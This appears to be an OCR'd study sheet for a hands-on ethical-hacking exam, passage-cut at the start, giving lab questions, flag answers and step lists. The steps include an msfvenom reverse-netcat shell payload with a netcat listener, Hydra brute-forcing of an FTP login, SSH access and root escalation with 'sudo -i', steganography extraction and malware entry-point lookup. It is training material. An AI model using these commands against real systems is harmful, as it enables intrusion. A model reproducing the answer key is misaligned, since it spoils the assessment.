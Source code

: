 8. ssh ubuntu@192.168.0.1
9. telnet 192.168.0.1
10. msfvenom -p cmd/unix/reverse_netcat LHOST=ip LPORT=444 and copy the path go to target machine
after login paste now find . -name flag.txt
11. start listen nc -lnvp 444
12. password type
13. ls
14. find . -name NetworkPass.txt
15. cat /path/NetworkPass.txt
  
7.A forensic investigator has confiscated a computer from a suspect in a data leakage case. He found an image file, MyTrip.jpg, stored in the Documents folder of the "EH Workstation – 2" machine. He suspects that some confidential data is hidden in the image file. Analyse the image file and extract the sensitive data hidden in the file. Enter the sensitive data, an eight-character alpha-numeric string, as the answer. Use "Imagination" if you are stuck.
Answer: N7#SePFn
1. openstego tool in 2019 or use stegonline for online
2. upload the file type password
3. type the flag
8.Exploit weak credentials used for FTP service on a Windows machine in the 192.168.0.0/24 subnet. Obtain the file, Credential.txt, hosted on the FTP root, and enter its content as the answer.
Answer: hSP#6Csa
1. Nmap -p 21 192.168.0.0/24
2. Sudo nmap -sS -A -T4 ip/24
3. hydra -L user.txt -P pass.txt ftp://192.168.0.1
4. ftp 192.168.0.1 and type user name and password login
5. Ls and search for the credential.txt file using find . -name credential.txt.
9.You used shoulder surfing to identify the username and password of a user on the Ubuntu machine in the 192.168.0.0/24 network, that is, smith and L1nux123. Access the target machine, perform vertical privilege escalation to that of a root user, and enter the content of the imroot.txt file as the answer.
Answer: CS@@g5tj
1. nmap -sV -p 22 192.168.0.0/24 and now see open port ip address and note down
2. ssh smith@192.168.0.1 and for password given L1nux123
3. sudo -i
4. cd/
5. find . -name imroot.txt
6. cat givenpath/imroot.txt
10.During an assignment, an incident responder has retained a suspicious executable file "die-another-day". Your task as a malware analyst is to find the executable's Entry point (Address). The file is in the C:\Users\Admin\Documents directory in the "EH Workstation – 2" machines.
Answer: 0041e768
1. Analyze ELF Executable File using Detect It Easy (DIE)
2. Open manuals go malware analysis folder, static malware analysis folder and packaging and officiation
folder then you can DIE folder.
3. Run the die.exe file in windows, upload the target file then click open now in scanned all now click on file
info there you can see the entry point address.
4. Find the Portable Executable (PE) Information of a Malware Executable File
5. Open manuals go malware analysis folder, static malware analysis folder and PE Extraction tools folder
    then you can install and launch it.
